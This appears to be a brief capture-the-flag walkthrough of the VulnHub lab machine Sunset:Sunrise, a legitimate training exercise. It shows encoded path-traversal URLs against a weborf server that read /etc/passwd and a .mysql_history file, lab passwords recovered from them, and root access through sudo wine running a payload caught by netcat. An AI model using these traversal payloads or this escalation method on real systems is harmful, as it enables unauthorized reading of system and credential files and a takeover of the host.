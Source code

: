 

# Sunset:Sunrise Walkthrough 

**VulnHub Link:** [Sunset:Sunrise](https://www.vulnhub.com/entry/sunset-sunrise,406/)
**Difficulty:** Easy
**Release Date:** 6 Dec 2019

## 1.Reconnaissance
```bash
nmap -A -O -T4 -P -sV 192.168.100.131
```


## 2.Web Enumeration

```bash
dirb http://ip
```

in 192.168.100.84:8080 , weborf version vulnerability found


/..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd in url

http://192.168.100.84:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2fsunrise%2fuser.txt --> gives user flag

http://192.168.100.84:8080/..%252f..%252f..%252f..%252f..%252f..%252f..%252fhome%252fweborf%252f/.mysql_history --> mysql password found and used in ssh service --- iheartrainbows44

in ssh, mysql -u weborf -p , mysql gain access

in mysql, sunrise password found --> thefutureissobrightigottawearshades

## 3.Privilege Escalation

in sunrise, sudo -u root /usr/bin/wine payload.exe connection gained from netcat --> root flag
